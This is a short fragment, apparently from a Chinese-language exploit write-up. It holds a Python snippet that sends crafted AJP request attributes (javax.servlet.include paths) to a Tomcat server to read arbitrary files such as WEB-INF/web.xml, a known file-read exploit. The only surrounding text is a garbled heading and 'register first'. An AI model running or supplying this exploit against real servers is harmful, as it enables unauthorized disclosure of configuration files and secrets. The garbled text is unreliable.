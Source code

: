 ```python
parser.add_argument("-f", '--file', type=str, default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")
args = parser.parse_args()
t = Tomcat(args.target, args.port)
_,data = t.perform_request('/asdf.jsp',attributes=[
    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/']},
    {'name':'req_attribute','value':['javax.servlet.include.path_info',args.file]},
    {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},
    ])
print('----------------------------')
print("".join([d.data for d in data]))


```

## 掉进阿帕奇的工资

先注册

